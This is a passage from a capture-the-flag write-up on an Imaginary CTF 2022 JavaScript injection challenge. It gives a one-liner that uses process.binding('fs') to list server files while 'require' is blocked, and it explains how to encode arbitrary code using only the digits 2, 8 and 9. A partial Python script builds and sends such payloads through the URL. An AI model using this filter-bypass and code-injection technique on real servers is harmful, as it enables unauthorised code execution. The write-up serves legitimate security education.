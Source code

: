 <img src="https://github.com/anas-cherni/CTF-writeups/blob/main/Imaginary%20CTF%202022/screenshots/error.png"> <br>
mmm weirdoo ! after some testing I concluded that the author is blocking "require" from executing.
One potential solution that works locally: 
```javascript
(()=>{ return process.binding('fs').readdir(".", (err, files) => {}, undefined, undefined, undefined).toString()})()
```
Remember that we are allowed to use 2,8,9 (they re not converted back to letters) so we can automate the attack by:
- Building whatever Js code char by char with String.fromCharCode() and using only [2,8,9].
- Crafting the payload in the URL
- Receiving back the response from the Server.<br>
**Kudos to my Team mate M0NGI** that came up with the idea! 
Python code is attached in the repo.
```python
from urllib.parse import quote as urlencode
import requests
from bs4 import BeautifulSoup

print('Imaginary CTF 1337 task')
code = input('JS CODE >>> ')
a = [ord(c) for c in code]

# a = [ 105, 109, 112, 111, 114, 116, 32, 80, 97, 116, 104, 32, 102, 114, 111, 109, 32, 39, 64, 109, 111, 106, 111, 106, 115, 47, 112, 97, 116, 104, 39, 59 ]

payload = ""
for ind, c in enumerate(a):
 r = ""
 s = 0
 if abs(8*8 - c) < abs(8*8*2 - c):
  r += "8*8"
 else:
  r += "8*8*2"
 
 s = eval(r)
 while c != s:
  if c > s:
   sign = "+"
```